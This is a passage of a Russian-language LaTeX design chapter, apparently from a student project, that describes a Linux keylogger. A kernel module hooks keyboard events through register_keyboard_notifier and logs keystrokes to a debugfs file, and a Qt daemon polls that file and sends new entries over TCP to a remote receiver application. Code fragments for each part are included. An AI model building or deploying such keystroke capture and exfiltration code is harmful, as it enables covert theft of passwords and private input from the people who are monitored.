\chapter{Конструкторский раздел}
\label{cha:design}
\section{Общая архитектура приложения}
В состав программного обеспечения будут входить
загружаемый модуль ядра, записывающий перехваченные нажатия клавишей, демон, который будет регулярно читать информацию из этого файла, а так же отсылать эту информацию на удаленный компьютер, пользовательское приложение, которое может быть размещено на удаленном компьютере, читающее принятые данные.
\begin{figure}[h!]
	\centering
	
\includegraphics[width=0.6\textwidth]{img/diagram1.png}
	\caption{Общая архитектура приложения}
	\label{fig:spire01}
\end{figure}
\section{Перехват сообщений}
Для перехвата сообщений клавиатуры необходимо в загружаемом модуле ядра разместить уведомитель, принимающий в качества параметра функцию обратного вызова нашей обработки сообщения клавиатуры.
Для этого была создана следующая структура:

\textit{	struct notifier\_block keysniffer\_blk = \{
		.notifier\_call = keysniffer\_cb,
	\};}

В этой структуру содержится указатель на прототип  нашей функции обработки сообщений

\textit{int keysniffer\_cb(struct notifier\_block* nblock,
unsigned long code,
void* \_param)}

Для создания уведомителя передаем созданную структуру в функцию:

\textit{	register\_keyboard\_notifier(\&keysniffer\_blk);}

\subsection{Хранение информации}
Для хранения информации используется файл в файловой системе debugfs. Для работы  с этой файловой системой мы предварительно создаем директорию, в которой будем работать.

\textit{subdir = debugfs\_create\_dir("keylog"\,, NULL);}

В эту функцию передаем название создаваемого нами каталога и нулевой указатель на родителя.

\textit{debugfs\_create\_file("keys",, 0400, subdir, NULL, \&keys\_fops)}

Передаем название файла логирования(keys), права(0400), родительскую директорию(subdir), и файловую структуру key\_fops.
Структура key\_ops имеет следующий вид:

 \begin{lstlisting}[style=pseudocode,caption={struct file\_operations keys\_fops}] 
const struct file_operations keys_fops = {
.owner = THIS_MODULE,
.read = keys_read,
};
 \end{lstlisting}

\textit{THIS\_MODULE}  указывает на владельца структуры file\_operations.
\textit{keys\_read} - функция для чтения данных из буфера
Структура file\_operations определяется в \textbf{linux/fs.h} и содержит указатели на функции, определенные драйвером, которые выполняют различные операции на устройстве. Каждое поле структуры соответствует адресу некоторой функции, определенной драйвером для обработки запрошенной операции. Например, каждому драйверу символов необходимо определить функцию, которая читает с устройства. Структура file\_operations содержит адрес функции модуля, который выполняет эту операцию. Вот как выглядит определение для ядра 4.14.2
 \begin{lstlisting}[style=pseudocode,,escapeinside={(@}{@)},caption={struct file\_operations}] 
struct file_operations {
	struct module *owner;
	loff_t (*llseek) (struct file *, loff_t, int);
	ssize_t (*read) (struct file *, char __user *, size_t, loff_t *);
	ssize_t (*write) (struct file *, const char __user *, size_t, loff_t *);
	ssize_t (*read_iter) (struct kiocb *, struct iov_iter *);
	ssize_t (*write_iter) (struct kiocb *, struct iov_iter *);
	int (*iterate) (struct file *, struct dir_context *);
	int (*iterate_shared) (struct file *, struct dir_context *);
	unsigned int (*poll) (struct file *, struct poll_table_struct *);
	long (*unlocked_ioctl) (struct file *, unsigned int, unsigned long);
	long (*compat_ioctl) (struct file *, unsigned int, unsigned long);
	int (*mmap) (struct file *, struct vm_area_struct *);
	int (*open) (struct inode *, struct file *);
	int (*flush) (struct file *, fl_owner_t id);
	int (*release) (struct inode *, struct file *);
	int (*fsync) (struct file *, loff_t, loff_t, int datasync);
	int (*fasync) (int, struct file *, int);
	int (*lock) (struct file *, int, struct file_lock *);
	ssize_t (*sendpage) (struct file *, struct page *, int, size_t, loff_t *, int);
	unsigned long (*get_unmapped_area)(struct file *, unsigned long, unsigned long, unsigned long, unsigned long);
	int (*check_flags)(int);
	int (*flock) (struct file *, int, struct file_lock *);
	ssize_t (*splice_write)(struct pipe_inode_info *, struct file *, loff_t *, size_t, unsigned int);
	ssize_t (*splice_read)(struct file *, loff_t *, struct pipe_inode_info *, size_t, unsigned int);
	int (*setlease)(struct file *, long, struct file_lock **, void **);
	long (*fallocate)(struct file *file, int mode, loff_t offset,
	loff_t len);
	void (*show_fdinfo)(struct seq_file *m, struct file *f);
	#ifndef CONFIG_MMU
	unsigned (*mmap_capabilities)(struct file *);
	#endif
	ssize_t (*copy_file_range)(struct file *, loff_t, struct file *,
	loff_t, size_t, unsigned int);
	int (*clone_file_range)(struct file *, loff_t, struct file *, loff_t,
	u64);
	ssize_t (*dedupe_file_range)(struct file *, u64, u64, struct file *,
	u64);
}:
 \end{lstlisting}
 Мы определили функцию чтения. Функция чтения имеет следующий вид:\\
  \begin{lstlisting}[style=pseudocode,,escapeinside={(@}{@)},caption={keys\_read}] 
 static ssize_t keys_read(struct file* filp,
 char* buffer,
 size_t len,
 loff_t* offset)
 {
 	return simple_read_from_buffer(buffer, len, offset, keys_buf, buf_pos);
 }
  \end{lstlisting}
  Т.е. функция чтения - это обертка на функцией simple\_read\_from\_buffer - Функция simple\_read\_from\_buffer - копирует данные из буфера в пространство пользователя.
  Эта функция имеет следующий прототип: \textit{ssize\_t simple\_read\_from\_buffer(void \_\_user *to, size\_t count, loff\_t *ppos,
  const void *from, size\_t available)} 

\textit{to} - буфер пространства пользователя для чтения\cite{book3}

\textit{count} максимальное количество прочитанных байтов

\textit{ppos}текущая позиция в буфере

\textit{from} буфер для чтения

\textit{available} размер буфера для чтения
\subsection{Алгоритм работы init-функции}
На рисунке \ref{fig:spire02} представлен алгоритм работы init-функции загружаемого модуля ядра.

\subsection{Алгоритм работы функции-обработчика }
На рисунке \ref{fig:spire03} представлен алгоритм работы функции обратного вызова нажатия клавиши загружаемого модуля ядра

\section{Формат записи сообщений в лог}
По умолчанию в лог записываются английские буквы или же английские описания букв. При загрузке модуля ядра можно указать, чтобы в лог записывались буквы в 16-тиричном или 8-ом формате.
\section{Агрегация сообщений}
Для агрегации сообщений, записываемых в файл загружаемым модулем ядра, была создана программа, которая каждые \textit{n} секунд проверяет не было ли записано в лог новых сообщений. Если были записаны сообщения, то новые сообщения отсылаются клиенту при помощи tcp-соедения.
 \begin{lstlisting}[style=pseudocode,,escapeinside={(@}{@)},caption={Наблюдение за изменением файла лога}] 
 Observer::Observer(QObject* parent)
 : QObject(parent)
 {
 QTimer* timer = new QTimer(this);
 connect(timer, SIGNAL(timeout()), this, SLOT(check()));
 timer->start(10000);
 }
 
 void Observer::check()
 {
 std::ifstream is("/sys/kernel/debug/keylog/keys", std::ifstream::binary);
 std::string s1(std::istreambuf_iterator<char>(is), {});
 std::string s3 = s1;
 if (s2.length() < s1.length()) {
     s3 = s3.erase(s3.find(s2), s2.length());
     s2 = s1;
 manager.sendDiff(QString::fromStdString(s3));
 }
 }
 \end{lstlisting}
 \section{Приём сообщений на удаленном комьютере}
 Было создано приложение, позволяющие принимать данные, которые отсылает агрегатор сообщений, на удаленном или локальном комьютере.
 \begin{lstlisting}[style=pseudocode,,escapeinside={(@}{@)},caption={Приём данных на удаленном компьютере}] 
 void MainWindow::readyRead() {
 QTcpSocket* socket = static_cast<QTcpSocket*>(sender());
 QByteArray* buffer = buffers.value(socket);
 qint32* s = sizes.value(socket);
 qint32 size = *s;
 while (socket->bytesAvailable() > 0) {
 buffer->append(socket->readAll());
 while ((size == 0 && buffer->size() >= 4) || (size > 0 && buffer->size() >= size)) {
 if (size == 0 && buffer->size() >= 4) 
 {
 size = ArrayToInt(buffer->mid(0, 4));
 *s = size;
 buffer->remove(0, 4);
 }
 if (size > 0 && buffer->size() >= size) 
 {
 QByteArray data = buffer->mid(0, size);
 buffer->remove(0, size);
 size = 0;
 *s = size;
 emit dataReceived(data);
 }}}}
  \end{lstlisting}

%%% Local Variables:

%%% mode: latex
%%% TeX-master: "rpz"
%%% End:
%--количество цветов
%||количество пикселей